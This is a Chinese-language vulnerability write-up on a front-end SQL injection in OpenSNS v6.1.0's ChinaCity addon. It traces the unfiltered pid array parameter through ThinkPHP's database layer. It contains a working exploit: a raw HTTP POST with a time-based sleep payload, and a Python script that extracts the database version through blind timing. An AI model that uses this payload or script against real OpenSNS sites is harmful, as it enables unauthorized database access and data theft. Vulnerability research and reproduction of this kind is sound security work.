 OpenSNS v6.1.0 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

OpenSNS v6.1.0

三、复现过程
------------

### 漏洞分析

Addons/ChinaCity/Controller/ChinaCityController.class.php:50
发现我们输入的payload，向前查找，最开始从\$\_POST获取，如何处理，到此处

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId25.jpg)

ThinkPHP/Common/functions.php:343 跟进I函数获取到payload

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId26.jpg)

继续跟发现有参数过滤，可仔细一看跟没过滤一样

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId27.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId28.jpg)

到这里向前追溯就结束了，从`$pid = I('pid');` 向后跟

跟进 \\Addons\\ChinaCity\\Model\\DistrictModel::\_list
`$list = D('Addons://ChinaCity/District')->_list($map);`跟进
Addons/ChinaCity/Model/DistrictModel.class.php:12

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId29.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId30.jpg)

ThinkPHP/Library/Think/Model.class.php:618
`$resultSet = $this->db->select($options);`ThinkPHP/Library/Think/Db.class.php:772

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId31.jpg)

Db.class.php:799, Think\\Db-\>buildSelectSql() 下的 `$this->parseSQl`
ThinkPHP/Library/Think/Db.class.php:799

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId32.jpg)

ThinkPHP/Library/Think/Db.class.php:804
发现执行了2个其他的sql语句，在此处（`buildSelectSql 里->return $sql`）下断点可以看到sql语句

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId33.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId34.jpg)

ThinkPHP/Library/Think/Db.class.php:821
`$this->parseWhere(!empty($options['where'])?$options['where']:''),`

ThinkPHP/Library/Think/Db.class.php:423

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId35.jpg)

跟到

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId36.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId37.jpg)

ThinkPHP/Library/Think/Db.class.php:468

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId38.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId39.jpg)

ThinkPHP/Library/Think/Db.class.php:497

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId40.jpg)

虽然这个地方有转译，但只有\$val\[1\]

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId41.jpg)

ThinkPHP/Library/Think/Db.class.php:464

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId42.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId43.jpg)

ThinkPHP/Library/Think/Db.class.php:773
`$result = $this->query($sql,$this->parseBind(!empty($options['bind'])?$options['bind']:array()));`

执行成功 sleep了

    Db.class.php:469, Think\Db->parseWhereItem()
    Db.class.php:457, Think\Db->parseWhere()
    Db.class.php:821, Think\Db->parseSql()
    Db.class.php:799, Think\Db->buildSelectSql()
    Db.class.php:772, Think\Db->select()
    Model.class.php:618, Think\Model->select()
    DistrictModel.class.php:12, Addons\ChinaCity\Model\DistrictModel->_list()
    ChinaCityController.class.php:58, Addons\ChinaCity\Controller\ChinaCityController->getCity()
    AddonsController.class.php:42, Home\Controller\AddonsController->execute()
    App.class.php:153, ReflectionMethod->invokeArgs()
    App.class.php:153, Think\App::exec()
    App.class.php:193, Think\App::run()
    Think.class.php:121, Think\Think::start()
    ThinkPHP.php:96, require()
    index.php:73, {main}()

### 漏洞复现

#### vul url

> [http://0-sec.org/uploads\_download\_2019-07-16\_5d2d5d4697d88/index.php?s=/home/addons/\_addons/china\_city/\_controller/china\_city/\_action/getcity.html](https://www.t00ls.net/)

#### poc

    POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Content-Length: 116
    Accept: */*
    Cookie: 
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.95.131
    Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
    X-Requested-With: XMLHttpRequest
    Accept-Encoding: gzip

    cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId48.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId49.jpg)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId50.jpg)

ThinkPHP/Library/Think/Db.class.php:772

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId51.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId52.jpg)

#### exp

    import requests
    from requests import exceptions

    url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"


    header={'X-Requested-With':'XMLHttpRequest'}
    # proxies={'http':'127.0.0.1:8080'}
    flag=''
    for i in range(1,50):
        for j in range(32,128):
            try:
                data={
                    'cid':0,
                    'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                    'pid[1]':3
                }
                # print data['pid[0]']
                r=requests.post(url,data=data,headers=header,timeout=5)

            except exceptions.Timeout :
                flag+=chr(j)
                print flag

![](/Users/aresx/Documents/VulWiki/.resource/OpenSNSv6.1.0前台sql注入/media/rId54.jpg)

参考链接
--------

> <https://www.t00ls.net/thread-54688-1-1.html>

